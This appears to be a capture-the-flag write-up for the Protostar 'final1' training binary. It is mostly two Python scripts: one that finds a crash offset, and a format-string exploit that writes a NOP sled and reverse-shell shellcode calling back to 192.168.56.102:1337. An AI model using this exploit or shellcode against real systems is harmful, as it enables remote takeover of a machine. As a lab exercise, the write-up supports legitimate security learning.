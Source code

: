 To find how many bytes to write exactly, try to use this script to make a segfault.

```python
import socket

s = socket.socket()
s.connect(("192.168.56.101",2994))

payload = "A"*(127-11)

data = s.recv(1024)

s.sendall("username " + payload + "\x0a")

data = s.recv(1024)

login = "\x94\xa1\x04\x08%49$hn"
s.sendall("login " + login + "\x0a")

data = s.recv(1024)
print "%s" % data

s.close()
```

And I find this in /var/log/syslog

```
root@protostar:/# tail -f /var/log/syslog | grep final1
Dec  10 07:01:49 protostar kernel: [   774.176247] final1[1428]: segfault at 80400ac ip 80400ac sp 
bffffbbc error 4 in final1[8048000+2000]
```

It seems that I write 0xac = 172 bytes, then I know how to complete my payload.

```python
import socket

#http://www.shell-storm.org/shellcode/files/shellcode-883.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89" \
"\xe1\xcd\x80\x92\xb0\x66\x68\xc0\xa8\x38\x66\x66\x68\x05\x39\x43" \
"\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59" \
"\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68" \
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

s = socket.socket()
s.connect(("192.168.56.101",2994))

payload = "\x90"*20 + shellcode
payload = payload + "\x90"*(127-len(payload)-11)

data = s.recv(1024)

s.sendall("username " + payload + "\x0a")

data = s.recv(1024)

login = "\x94\xa1\x04\x08%41348x%49$hn"
s.sendall("login " + login + "\x0a")

data = s.recv(1024)
print "%s" % data

s.close()
```
